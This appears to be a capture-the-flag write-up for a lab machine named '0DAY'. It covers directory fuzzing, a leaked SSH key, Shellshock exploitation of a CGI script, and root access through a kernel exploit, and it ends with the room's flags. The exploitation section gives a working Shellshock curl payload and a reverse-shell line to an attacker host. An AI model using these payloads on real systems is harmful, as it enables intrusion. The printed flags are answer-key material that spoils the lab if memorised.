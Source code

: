```yaml
---
sticker: emoji//1f422
---
```


# 0DAY

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | SSH     |
| 80   | HTTP    |

## RECONNAISSANCE

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250429135028.png)

Let's fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/FUZZ" -ic -c -t 200 -e .php,.html,.git

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .git
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 284ms]
.html                   [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 285ms]
                        [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 285ms]
uploads                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 162ms]
img                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 933ms]
cgi-bin                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 933ms]
admin                   [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
css                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 163ms]
js                      [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 160ms]
backup                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
secret                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
```

We got some interesting findings like `backup, secret` and `cgi-bin` let's check the first two:

![](gitbook/cybersecurity/images/Pasted%20image%2020250429140047.png)

There's an `id_rsa` key on here, we don't have the username so, let's simply save it for now, let's proceed to `secret`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250429140228.png)

I tried getting some info with `steghide` but no luck, let's proceed then with `cgi-bin`, a `cgi-bin` directory often indicates the presence of legacy CGI (Common Gateway Interface) scripts, which can be vulnerable to attacks like **Shellshock**, **command injection**, or **path traversal** if poorly coded.

Let's try `shellshock`, this vulnerability allows remote code execution without confirmation. A series of random characters, `() { :; }; ,` confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We need to fuzz the directory to find the script inside of it:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/cgi-bin/FUZZ" -ic -c -t 200 -e .cgi

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .cgi
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

test.cgi                [Status: 200, Size: 13, Words: 2, Lines: 2, Duration: 163ms]
```

There we go, let's proceed with exploitation.

## EXPLOITATION

***

With this, we can start the `shellshock` attack, let's test it:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'id'" http://10.10.214.142/cgi-bin/test.cgi
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250429140729.png)

There we go, `shellshock` attack works, let's get a shell then:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'sh -i >& /dev/tcp/IP/9001 0>&1'" http://10.10.214.142/cgi-bin/test.cgi
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250429140854.png)

We can proceed with privilege escalation.

## PRIVILEGE ESCALATION

***

Let's stabilize our shell first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250429141002.png)

Let's use `linpeas` to look for any `PE` vector:

![](gitbook/cybersecurity/images/Pasted%20image%2020250429142332.png)

As seen, we are dealing with a `3.13.0-32-generic` Linux version, let's search information about how to escalate privileges in it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250429142418.png)

There's a `c` exploit we can get, once we get it on our victim machine, we can do the following:

```
gcc pe.c -o pe
```

If we try compiling it, we get this error:

```
www-data@ubuntu:/tmp$ gcc pe.c -o privesc
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

This is a problem in the `PATH`, we can fix it with:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now, let's compile again:

```
gcc pe.c -o pe
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250429143345.png)

There we go, we can simply run it now:

![](gitbook/cybersecurity/images/Pasted%20image%2020250429143408.png)

We are root now and can finally read both flags:

```
# cat /home/ryan/user.txt
THM{Sh3llSh0ck_r0ckz}
```

```
# cat /root/root.txt
THM{g00d_j0b_0day_is_Pleased}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250429143558.png)
